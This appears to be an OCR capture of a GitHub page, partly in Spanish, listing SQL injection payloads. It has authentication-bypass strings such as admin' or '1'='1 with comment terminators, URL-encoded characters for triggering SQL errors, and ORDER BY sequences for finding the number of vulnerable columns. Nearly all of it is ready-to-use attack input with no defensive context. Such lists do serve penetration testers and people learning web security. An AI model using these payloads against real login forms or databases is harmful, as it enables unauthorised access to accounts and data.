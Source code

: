 ```
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--

' or ''-'
" or ""-"
" or true--
' or true--

admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```

## Ejemplos de payloads sql injection

### Detectar un error sql 
```
' = %27
" = %22
# = %23
; = %3B
```

### Detectar numero de columnas vulnerables 
```
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
```